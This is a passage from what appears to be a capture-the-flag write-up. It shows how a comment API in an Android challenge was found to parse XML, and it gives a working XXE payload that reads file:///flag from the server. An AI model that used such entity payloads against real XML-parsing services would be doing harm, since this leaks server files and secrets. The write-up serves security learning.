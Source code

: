 We also get a JSON response from the API, again seeing that our `Name` field is present in the response:

```
{'message': 'Thank you asdf for your comment!'}
```

Hmm, I wonder if we can use other `Content-Type`s? After a quick Google search, we see that `retrofit2` technically can use XML, and even though there probably isn't a Java client with `retrofit2` on the server, it's possible that we could do an XXE (XML eXternal Entities) attack to leak the flag from the server.

# POSTing a comment with XML

First, let's try and send a normal comment with an XML payload. After some Googling, we see that `retrofit2` uses a parent XML element as the class name, and then each parameter as a sub-element, so we construct an XMl payload like this:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<Comment>
    <name>XML comment!</name>
    <message>Hello there!</message>
</Comment>
```

Sending that payload (along with setting `Content-Type` to `application/xml`), we get the following JSON response:

```
{'message': 'Thank you XML comment! for your comment!'}
```

Yay! This confirms that the application successfully parses our XML payload.

# XXE Exploit

Now, we need to write an XML payload to get the flag. Let's use a basic XXE payload to load the flag and read it as the `name` element, since it is sent back to us in the response:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM  "file:///flag" >
]>
<Comment>
    <name>&xxe;</name>
    <message>flag please!</message>
</Comment>
```

If we send this payload, we get the flag!

```
{'message': 'Thank you F#{0h_f1n4lly_y0u_f0und_m3!}\n for your comment!'}
```

This was a really fun challenge, and I look forward to more Android challenges in future CTFs.